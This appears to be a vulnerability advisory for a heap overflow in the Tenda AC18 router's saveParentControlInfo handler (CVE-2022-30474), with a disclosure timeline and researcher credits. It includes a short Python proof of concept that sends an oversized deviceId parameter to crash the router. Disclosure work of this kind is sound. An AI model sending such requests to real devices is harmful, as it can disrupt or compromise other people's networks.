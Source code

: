 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **heap overflow** vulnerability in function `saveParentControlInfo`.

In function `saveParentControlInfo` it reads user provided parameter `deviceId` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the heap-based buffer `ptr`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/saveParentControlInfo`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=" + "s" * 0x1000

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30474)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41848)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
